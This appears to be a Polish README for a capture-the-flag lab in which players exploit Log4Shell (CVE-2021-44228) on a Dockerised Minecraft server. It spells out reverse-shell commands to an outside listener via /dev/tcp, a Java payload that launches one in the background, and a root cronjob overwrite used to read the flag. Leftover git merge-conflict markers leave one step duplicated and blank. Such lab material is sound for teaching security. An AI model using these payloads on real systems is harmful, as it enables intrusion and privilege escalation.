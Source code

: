 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Zasady CTF

Uruchomiony kontener obrazu **kwasnyy/mcctf:mcexpl** jest atakowanym serwerem. Założenie jest, że nie masz do niego dostępu, nie masz o nim wiedzy (poza tym co piszemy tutaj). Więc zdobywanie wiedzy poprzez sprawdzanie `Dockerfile` albo włamywanie się poprzez `docker exec -it ID bash` jest bez sensu i nie jest rozwiązaniem CTF'a.
Pozostałe uruchamiane kontenery są już twoją własnością, możesz robić z nimi co chcesz.


## Wymagania
- Docker,
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj),
- [Minecraft Launcher](/SKlauncher-Universal-All-Versions.jar) albo jakikolwiek inny launcher,
- NetCat (użyj WSL lub zainstaluj na Windowsie),

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką gdzie ustawia zmienną `cmd`,
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`,
5. Po odczytaniu tajnego kodu zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,

<<<<<<< HEAD
   3. **Interesujący cię plik jest umieszczony gdzieś na systemie:**
      - 
=======
### 3. Interesujący cię plik jest umieszczony gdzieś na systemie:
   wyszukaj plik komendą `find / -name "flag.txt"`,

### 4. Rozejrzyj się po plikach w folderze `/server`:
   1. interesuje cię plik `cronjob.sh`,
   2. zobacz na zawartość - wykonuje on backup świata minecrafta,
   3. `ls -la /server/bqp` - zobacz kto jest właścicielem folderów - ten sam user ma w swoim cronie zamontowane uruchamianie tego skryptu,
   4. podmień zawartość skryptu `cronjob.sh` na taką, która wykonana z uprawnieniami roota pozwoli na odczytanie pliku,
   5. <details>
      <summary><b>Pokaż komendę:</b></summary>
      `echo "chmod 666 /usr/lib/jvm/jre1.8.0_181/lib/desktop/icons/LowContrast/16x16/mimetypes/flag.txt" > /server/cronjob.sh`
      </details>

### 5. Po odczytaniu flagi zapraszamy do wspólnej gry :)
   0. postępuj zgodnie z instrukcjami klikając przyciski,
   1. wprowadź flagę do skrzynki,
   2. odczekaj chwilkę,
   3. Zapraszamy do wspólnej gry! <3
>>>>>>> all


## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Uzyskanie Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```


## Przydatne komendy 

### Docker
```sh
docker build . -t <jakas nazwa>
docker run -p <host>:<docker> -ti <jakas nazwa>
docker ps
docker ps -a
docker kill <id>     # nie trzeba wpisywać całego id, wystarczy jednoznacznie identyfikujący początek
docker remove <id>   # tu też, generalnie tak działa id
docker image prune   # wywal nieuruchomione image
docker container prune  # wywal zatrzymane kontenery (kontener po CTRL+C zostaje zatrzymany, a nie usunięty)
```

<br>

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft](https://www.minecraftxl.com/deep-sea-map/) od BlockWorks


